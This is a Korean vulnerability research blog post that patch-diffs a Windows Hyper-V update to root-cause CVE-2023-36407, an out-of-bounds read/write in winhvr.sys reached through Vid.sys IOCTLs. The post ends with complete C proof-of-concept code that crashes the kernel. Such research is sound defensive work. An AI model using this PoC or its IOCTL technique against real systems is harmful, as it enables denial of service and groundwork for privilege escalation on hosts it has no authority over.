










안녕하세요! 무려 Part 7로 돌아온 pwndorei입니다!

지난 Part 6에서는 Hyper-V 패치 자동화 스크립트인 [Patch-V](https://github.com/pwndorei/Patch-V)를 소개하고 간단한 예시로 사용방법을 알려드렸었죠? 이번에는 Patch-V를 사용해서 Hyper-V LPE 취약점인 CVE-2023-36407을 Patch Diffiing하고 취약점을 익스플로잇 해봅시다!

# Patch

---

Part 6에서 CVE-2024-20699와 CVE-2024-20700를 분석하기 위해 KB5034121와 KB5033369를 Diffing한 것처럼 이번에는 KB5031354과 KB5032190을 Diffing해보겠습니다.

Windows 11 22H2(x64)기준 KB5032190로 패치된 Hyper-V 취약점은 Information Disclosure 취약점인 CVE-2023-36406과 Elevation of Privilege 취약점인 CVE-2023-36407, CVE-2023-36408이 있습니다.

Patch-V를 사용하여 얻어진 각 버전의 바이너리들을 디핑한 BinDiff 워크스페이스는 아래와 같습니다!



변경점이 꽤나 많을 것을 확인할 수 있는데요? 각 바이너리 별로 바뀐 점이 있는지 그리고 어떤 함수가 어떻게 바뀌었는지 전부 살펴보는 것도 무리는 아니지만 시간이 너무 오래 걸릴 겁니다...

따라서 저는 공개된 취약점의 정보를 최대한 활용해서 취약할 가능성이 높은 바이너리들 먼저 살펴보기로 했습니다!

먼저 CVE-2023-36407과 CVE-2023-36408 모두 권한 상승과 관련된 취약점이기에 먼저 `.sys` 파일들부터 살펴보면 좋을 것 같죠? 특히 [MSRC](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-36407)에서 확인할 수 있는 해당 취약점에 대한 FAQ를 보면 아래와 같이 적혀있는데요?

```
Q: What privileges could be gained by an attacker who successfully exploited this vulnerability?

A: An attacker who successfully exploited this vulnerability could gain SYSTEM privileges.
```

취약점을 익스플로잇하면 `SYSTEM` 권한을 획득할 수 있다라... Root Partition에서 사용되는 커널 드라이버들을 위주로 살펴보면 될 것 같네요!

# Diffing

---

`.sys`파일들을 집중적으로 살펴본 결과, `winhvr.sys`의 `WinHvGetVpState` 함수와 `WinHvSetVpState` 함수가 크게 바뀌었고 `WinHvpSetupVpStatePfnBuffer` 함수가 삭제된 것을 확인할 수 있었습니다.





아래를 보시면 패치 이후로 여러 Basic Block이 추가된 것을 확인할 수 있었습니다... 어떤 값에 대한 검사가 이루어지지 않아 취약점이 발생했고 패치는 해당 값을 검사하는 방향으로 이루어진 걸까요?...



디컴파일된 코드를 비교한 결과는 아래와 같습니다.



패치되면서 삭제된 `WinHvpSetupVpStatePfnBuffer` 함수의 호출(왼쪽, Line 30)이 사라지고 해당 부분을 다른 코드가 대체한 것과 `memmove`의 세 번째 인자인 복사할 데이터의 길이 + 0x28이 0x1000보다 큰지 검사하는 루틴이 추가(오른쪽, Line 39)된 것을 확인할 수 있네요!

`WinHvGetVpState` 또한 아래와 같이 동일한 패치가 적용된 것을 확인할 수 있었습니다.



그리고 추가적으로 삭제된 `WinHvpSetupVpStatePfnBuffer`함수의 동작을 살펴보면 아래와 같은데요?



`ExAllocatePool2`와 `MmGetPhysicalAddress`를 호출하는 것과 다른 코드를 보아 이 함수를 호출하는 부분이 삭제되고 추가된 코드와 완전 동일한 동작을 하는 것으로 추정됩니다! 아마 다른 곳에서 호출되지도 않고 함수로서의 의미가 퇴색되어 사라진게 아닐까 조심스레 추측해봅니다...

# Vulnerability

---

정리하자면 CVE-2023-36407은 `winhvr.sys`의 `WinHvGetVpState`와 `WinHvSetVpState` 함수에서 `memove`의 인자로 사용되는 `Size` 값에 대한 검사가 이루어지지 않아 발생하는 OOB Read/Write 취약점입니다! `WinHvGetVpState`로 OOB Read를 `WinHvSetVpState`로 OOB Write를 수행할 수 있고 취약한 버퍼는 `"WHvJ"` 태그로 할당된 0x1000 크기의 Non-paged Pool로 Hypercall에 사용되는 버퍼입니다. 또한 함수들의 이름에서 알 수 있는 것처럼 가상 프로세서(Virtual Processor)의 상태(State)를 관리하는 기능을 합니다.

# Triggering the Bug

버그를 트리거하기 위해서는 먼저 취약한 함수를 호출하는 방법을 알 필요가 있습니다. 분석을 통해 취약한 함수들은 `winhvr.sys` 내부에서는 호출되지 않고 Export되고 있다는 것을 알 수 있었고 Virtualization Infrastructure Driver(`Vid.sys`)에서 Import하는 것을 알 수 있었습니다.

## Vid!VidExoIoControlPartition

`Vid.sys`에서 `WinHvGetVpState`와 `WinHvSetVpState`를 호출하는 함수로 이름에서 알 수 있는 것처럼 I/O Control을 처리하는 `VidExoIoControlPartition`함수입니다.

```c
ulonglong VidExoIoControlPartition
                    (undefined (*param_1) [16],_IRP *param_2,ulonglong *FileObject,void *InputBuffer
                    ,uint InputBufferLength,void *OutputBuffer,uint OutputBufferLength,
                    uint ControlCode,uint *param_9)

{
  int iVar1;
  ulonglong uVar2;
  undefined4 extraout_var;
  undefined4 extraout_var_00;
  
  *param_9 = 0;
  if (ControlCode == 0x221278) {
    if (InputBufferLength < 0x18) {
      return 0xc0000023;
    }
                    /* WARNING: Load size is inaccurate */
    uVar2 = WinHvInstallIntercept
                      (*(undefined8 *)(param_1[0x28] + 8),*InputBuffer,(longlong)InputBuffer + 8);
    return uVar2;
  }
  if (0x221198 < ControlCode) {
    switch(ControlCode) {
	'''
    case 0x221264:
      if (InputBufferLength < 0x20) {
        return 0xc0000023;
      }
      if (OutputBufferLength == 0) {
        return 0xc0000023;
      }
      if (0x1fb000 < OutputBufferLength) {
        return 0x80000005;
      }
                    /* WARNING: Load size is inaccurate */
      uVar2 = WinHvGetVpState(*(undefined8 *)(param_1[0x28] + 8),*InputBuffer,
                              *(undefined *)((longlong)InputBuffer + 4),(longlong)InputBuffer + 8,
                              OutputBuffer,OutputBufferLength);
      if (-1 < (int)uVar2) {
        *param_9 = OutputBufferLength;
        return uVar2;
      }
      return uVar2;
    case 0x221268:
      if (InputBufferLength < 0x21) {
        return 0xc0000023;
      }
      if (0x1fb000 < InputBufferLength - 0x20) {
        return 0x80000005;
      }
                    /* WARNING: Load size is inaccurate */
      uVar2 = WinHvSetVpState(*(undefined8 *)(param_1[0x28] + 8),*InputBuffer,
                              *(undefined *)((longlong)InputBuffer + 4),(longlong)InputBuffer + 8,
                              (longlong)InputBuffer + 0x20,InputBufferLength - 0x20);
      return uVar2;
	  ...
	}
  }
  return uVar2;
}

```

control code가 각각 0x221264, 0x221268일 때 `WinHvGetVpState`, `WinHvSetVpState`함수가 호출되는 것을 확인할 수 있습니다. 또한 추가적인 분석을 통해 아래의 `\Device\VidExo` 디바이스에 대한 I/O Control은 `VidExopIoControlPreProcess` 함수 호출로 이어져 `VidExoIoControlDriver`, `VidExoIoControlPartition`, `VidIoControlDriver`, `VidIoControlPartition` 함수 중 하나가 호출된다는 것을 알 수 있었습니다.



### `VidExopIoControlPreProcess`

```c
__int64 __fastcall VidExopIoControlPreProcess(__int64 a1, IRP *irp)
{
  a8[0] = 0;
  CurStackLocation = irp->Tail.Overlay.CurrentStackLocation;
  CTL_CODE = CurStackLocation->Parameters.DeviceIoControl.IoControlCode;
  if ( (CTL_CODE & 3) == 0 )
  {
    InputLength = CurStackLocation->Parameters.DeviceIoControl.InputBufferLength;
    if ( InputLength )
      InputBuffer = irp->AssociatedIrp.SystemBuffer;
    else
      InputBuffer = 0i64;
    OutputLength = CurStackLocation->Parameters.DeviceIoControl.OutputBufferLength;
    if ( OutputLength )
      OutputBuffer = irp->AssociatedIrp.SystemBuffer;
    else
      OutputBuffer = 0i64;
    FileObj = CurStackLocation->FileObject;
    v11 = (unsigned __int64)FileObj->FsContext;
    fscontext = v11 & 0xFFFFFFFFFFFFFFFCui64;// *(DWORD*)fscontext == ' oxE'
    if ( fscontext )
    {
      if ( *(_DWORD *)fscontext != ' oxE' )
      {
        if ( *(_DWORD *)fscontext != 'ntrP' )
        {
          v5 = -1073741816;
          goto LABEL_3;
        }
        ...
        if ( _bittest64(&v16, 0xFu) )
          v17 = VidExoIoControlPartition((_QWORD *)fscontext,irp,FileObj,InputBuffer,InputLength,OutputBuffer,OutputLength,CTL_CODE,(__int64)a8);
        else
          ...
      }
      v20 = VidExoIoControlDriver(v13, v12, InputBuffer, InputLength, OutputBuffer, OutputLength, CTL_CODE, a8);
    }
    else
    {
      v20 = VidIoControlDriver((__int64)VidDeviceExtension,(__int64)FileObj,InputBuffer,InputLength,OutputBuffer,OutputLength,CTL_CODE,a8);
    }
   ...
  return v5;
}
```

## Exo Partition

바로 익스플로잇 코드를 작성하러 가보기 전에 Exo Partition에 대해 알 필요가 있습니다.

디바이스 이름이나 함수명에서 계속 보이는 `Exo`라는 단어는 해당 디바이스와 함수들이 Exo Partition과 연관되어 있기 때문인데요? 이 Exo Partition이라는 건 한마디로 WHVP(Windows Hypervisor Platform) API를 사용하여 관리되는 파티션을 말합니다! WHVP API가 제공하는 `WHvCreatePartition`, `WHvCreateVirtualProcessor` 등의 함수를 사용하면 Hyper-V의 기능을 통해 파티션/가상 프로세서의 생성과 관리 등이 가능합니다.

아래는 WHVP API를 사용하여 Partition 생성/제거를 하는 간단한 예시입니다.

```c
#include <stdio.h>
#include <Windows.h>
#include "WinHvPlatform.h"

int
main()
{
	WHV_PARTITION_HANDLE prtn;
	WHV_CAPABILITY cap;
	unsigned int size, val;
	char* payload = NULL;

	WHvGetCapability(WHvCapabilityCodeHypervisorPresent, &cap, sizeof(cap), &size);

	if (cap.HypervisorPresent == 0)
	{
		printf("Hypervisor is not present\n");
		return -1;
	}

	WHvCreatePartition(&prtn);

	val = 1;//processor cnt
	WHvSetPartitionProperty(prtn, WHvPartitionPropertyCodeProcessorCount, &val, sizeof(val));

	WHvSetupPartition(prtn);

	WHvDeletePartition(prtn);
}
```

# Exploitation - Denial of Service

다시 본론으로 돌아와서 익스플로잇입니다! 아래의 익스플로잇 코드에서는 `WinHvSetVpState`에서 발생하는 OOB Write를 통해 커널 메모리에 위치한 데이터들을 오염시켜 크래시를 발생시키는 것으로 Denial of Service를 달성합니다.

```c
#include <stdio.h>
#include <Windows.h>
#include "WinHvPlatform.h"

#define OOB_WRITE_CTL_CODE 0x221268
#define OOB_SIZE 0x10000

int
main()
{
	WHV_PARTITION_HANDLE prtn;
	WHV_CAPABILITY cap;
	unsigned int size, val;
	char* payload = NULL;

	WHvGetCapability(WHvCapabilityCodeHypervisorPresent, &cap, sizeof(cap), &size);

	if (cap.HypervisorPresent == 0)
	{
		printf("Hypervisor is not present\n");
		return -1;
	}

	WHvCreatePartition(&prtn);

	val = 1;//processor cnt
	WHvSetPartitionProperty(prtn, WHvPartitionPropertyCodeProcessorCount, &val, sizeof(val));

	WHvSetupPartition(prtn);

	HANDLE VidExo = (HANDLE)(*((__int64*)prtn + 1) & 0xfffffffffffffffe);

	payload = malloc(OOB_SIZE);
	memset(payload, 0x0, OOB_SIZE);

	//exploit
	DeviceIoControl(VidExo, OOB_WRITE_CTL_CODE, payload, OOB_SIZE, NULL, 0, NULL, NULL);

	printf("%p\n", VidExo);

	getc(stdin);

	WHvDeletePartition(prtn);
}
```

위 코드를 보시면 `CreateFileA`나 `CreateFileW`로 함수로 `\Device\VidExo`에 대한 핸들을 얻는 것이 아닌 WHVP API를 사용해서 생성한 파티션의 핸들을 참조하여 `VidExo`의 핸들을 가져오는 것을 볼 수 있는데요? `\Device\VidExo`에 접근이 불가능한 것은 아니지만 일반적인 `CreateFile`함수 호출로 얻어지는 `VidExo`의 핸들을 사용한 `DeviceIoControl`는 `WinHvGet/SetVpState` 함수가 호출되지 않습니다.

유저모드 프로세스에서 `CreateFile`함수를 호출해서 `VidExo`의 핸들이 생성될 때 `Vid.sys`에서는 `VidExo` 오브젝트가 만들어지고 이 오브젝트에는 `Exo`와 `Prtn` 타입이 존재합니다.

`VidExopIoControlPreProcess` 함수를 확인해보면 아래와 같이 `fscontext`에 저장된 시그니처를 통해 `VidExo` 오브젝트가 어떤 타입인지 검사하는 부분이 존재합니다.

```c
	  ...
    fscontext = v11 & 0xFFFFFFFFFFFFFFFCui64;// *(DWORD*)fscontext == ' oxE'
    if ( fscontext )
    {
      if ( *(_DWORD *)fscontext != ' oxE' )
      {
        if ( *(_DWORD *)fscontext != 'ntrP' )
    ...
```

`WinHvGet/SetVpState` 함수를 호출하는 `VidExoIoControlPartition` 함수는 `VidExo` 오브젝트가 `Prtn` 타입인 경우에 호출됩니다. 일반적인 `CreateFile`함수 호출로 얻어진 `\Device\VidExo` 핸들은 `Exo` 타입이기 때문에 취약한 함수들이 호출되지 않는 거죠...

그럼 Prtn 타입의 오브젝트에 대한 핸들은 어떻게 얻을 수 있을까요?

먼저 아래의 WHVP API를 사용하여 가상머신을 구동하는 qemu 프로세스의 핸들 목록을 보면 `\Device\VidExo`의 핸들이 두 개 존재하는 것을 확인할 수 있습니다



이들은 각각 `Exo`, `Prtn` 타입의 `VidExo` 오브젝트에 대한 핸들이고 분석을 통해 `WHvSetupPartition` 함수 호출을 통해 `Prtn` 오브젝트 핸들이 얻어지는 것을 확인했습니다.

여기서 호출되는 `CreateFileW` 함수의 인자로는 `\\?\VidExo\`에 파티션의 GUID로 보이는 문자열이 추가되어 사용되는 것을 확인할 수 있었습니다.



반환된 핸들은 1과 OR되어 `WHvSetupPartition`함수 호출의 첫 번째 인자로 전달한 파티션 핸들(`WHV_PARTITION_HANDLE`) + 8의 주소에 저장되고 익스플로잇 코드에서는 아래와 같이 데이터를 읽어 핸들을 가져옵니다.

```c
HANDLE VidExo = (HANDLE)(*((__int64*)prtn + 1) & 0xfffffffffffffffe);
```

이후 가져온 핸들을 사용하여 OOB Read/Write가 발생하는 버퍼(0x1000)보다 매우 큰 크기(0x10000)를 가지는 데이터를 input으로 `DeviceIoControl`을 호출하는 것으로 OOB Write를 트리거하고 커널 크래시를 발생시킵니다!

PoC를 실행해보면 아래와 같이 블루스크린이 발생하는 것을 볼 수 있습니다!.

<iframe width="560" height="315" src="https://www.youtube.com/embed/O7LLnyv1Pas?si=31L-nncsQa95NOYo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>


# The End

이번 파트 7을 끝으로 저의 첫 연구글 시리즈가 끝이 났습니다... 파트 5까지 다룬 CVE-2018-0959의 분석과 익스플로잇이 끝난 시점에서 Hyper-V 취약점 연구는 더이상 하지 않을 줄로만 알았으나 약간의 미련이 남아 diffing 해본 1-day가 어찌저찌 루트 커즈 분석과 LPE는 아니지만 PoC까지 작성하는 기염을 토했습니다... 여기까지 온 이상 진짜로 Hyper-V를 놓아줄 수 없게 되었네요 

잠깐 지난 날들의 추억을 떠올려 봤습니다만 결론적으로는 NewJeans' Hyper-V 연구글 시리즈는 더이상 끌고가면 너무 루즈해지는 것 같아서 끝나지만 저의 Hyper-V 사랑은 아직 식지 않았다는 것입니다 >_-

아무튼 긴 시리즈 읽어주셔서 감사하고 다음에 더 재미있는 주제로 돌아오겠습니다! ^^7

# Reference

- [Hyper-V memory internals. EXO partition memory access](https://hvinternals.blogspot.com/2020/06/hyper-v-memory-internals-exo-partition.html) by [Gerhart](https://twitter.com/gerhart_x)